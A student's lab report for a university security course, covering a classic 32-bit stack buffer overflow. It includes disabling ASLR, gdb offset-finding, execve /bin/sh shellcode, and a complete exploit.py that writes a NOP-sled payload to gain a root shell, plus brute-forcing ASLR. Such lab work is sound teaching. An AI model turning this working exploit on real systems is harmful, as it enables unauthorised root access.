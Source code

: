 ## Assignment 2

### Comp 4580

#### Ryan Dotzlaw - 

Do task 1, 2, 3, and 8.

### Task 1: Getting Familiar With Shellcode

For this task, compile and execute the 32-bit and 64-bit versions of the given `call_shelcode.c`.

Compiling and running `a32.out` gives:


![Shell](1b.png)


Compiling and running `a64.out` gives:


![Shell](1a.png)


From the results of both `a32.out` and `a64.out` we can see that executing them gives a root shell to the one who ran them.


### Task 2: Understanding the Vulnerable Program

In given `code/Makefile` set `L1` to `254` according to assignment instructions.

Then just compile the code using the given `Makefile`

![Compilation](2a.png)

### Task 3: Launching an Attack on a 32-bit Program

#### Preparing for the Attack

We have to disable some countermeasures built into Linux if we want to succeed with this basic buffer overflow.

Disable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=0
```

#### Investigating for the Attack

We need to gather some information before we can construct our payload.

The program we're going to be attacking is `stack-L1`, so we'll use the debug binary for it that we compiled to gather information about the stack.

We do this by using `gdb` and creating a breakpoint at the `bof` function.

![breakpoint](3breakpoint.png)

Then stepping forwards once with `next` and getting the value in the `$ebp` register.

![ebp](3ebp.png)

In actual execution the frame pointer will be larger, since `gdb` pushes some additional stuff onto the stack.

Without `gdb` the stack wouldn't have grown as much, so we need to keep this in mind when creating the payload.

Then we also want to get the address of the buffer variable.

![buffer address](3buffaddr.png)

The distance between the buffer address and the frame address is:

```
0xffffcb18 - 0xffffca12 = 0x106 (262 in decimal)
```


#### Preparing the Payload

We'll construct the payload in `badfile` using the given `exploit.py`, but we'll have to do some modifications.

`exploit.py` creates the file `badfile` by constructing a 517 `NOP` long string, then by overwriting part of it with the shellcode, and then another part with the return address.

The challenge comes from finding where to put the return address and the shellcode.

Modifying the `shellcode` variable to contain the following:

```
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
```

This defines the code that will launch the root shell.

Next we need to define where the shellcode will be placed using the `start` variable.

The simplest solution is to just place the shellcode at the very end, so we have a larger area of `NOP` instructions to hit with our return address.

So we set start to:

```
517 - len(shellcode)
```

Then we need to place the correct return address in the proper spot to overwrite the original return address.

From our investigation with `gdb`, we know the difference between where the buffer starts in memory and where the frame starts is `0x106`, so the return address is `+4` above that.

So our address needs to be placed at an offset of `0x10A`, so we set offset to `0x10A`.

Then we need to set value to overwrite the original return address with.

Because of our `NOP` sled, we can undershoot our shellcode by a decent bit and still reach it, but we can't overshoot or the exploit will fail.

We also need to remember that the address given to us was gotten when we were using `gdb`, which effects the position of the address by making it lower than it would be in normal execution (because the stack grows down).

To start with, I'll use the address we got plus `200`, setting the `ret` to:

```
0xffffcb18 + 200
```

View the full code for `exploit.py` in the appendix.

Then we generate `badfile` by running `python3 exploit.py`, and then we just have to run `./stack-L1`, getting this as a result:

![rootshell](3succ.png)

Meaning we've successfully executed arbitrary code using a buffer overflow.

### Task 8: Defeating Address Randomization

Now we need to re-enable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=2
```

From there we can just run the given `brute_force.sh` which will keep running until we exhaust all the addresses and succeed.

This is only possible because the `stack-L1` program is 32-bit and there are only 2^19 addresses.

For 64-bit programs, the time it takes to do an attack like this is not feasible.

The result of running the brute force attack is as follows:

![rootshell](4shell.png)

It didn't take too long for it to succeed, only around 2 minutes with a total of 31,304 tries.

Considering there is a total of 524,288 (2^19) addresses, I only went through roughly a 16th of the possible addresses.

That means that I had good luck, as it could've taken potentially 16 times longer.

Realistically since the memory is structured the return address doesn't really have 524,288 potential positions, so a worst case wouldn't take you 32 minutes.

Even then, 32 minutes for a rootshell doesn't seem like a daunting amount of time for a hacker trying to gain access to a rootshell

### Appendix

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 200   # + 8 works with gdb     # Change this number 
offset = 0x10A            # Distance + 4 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```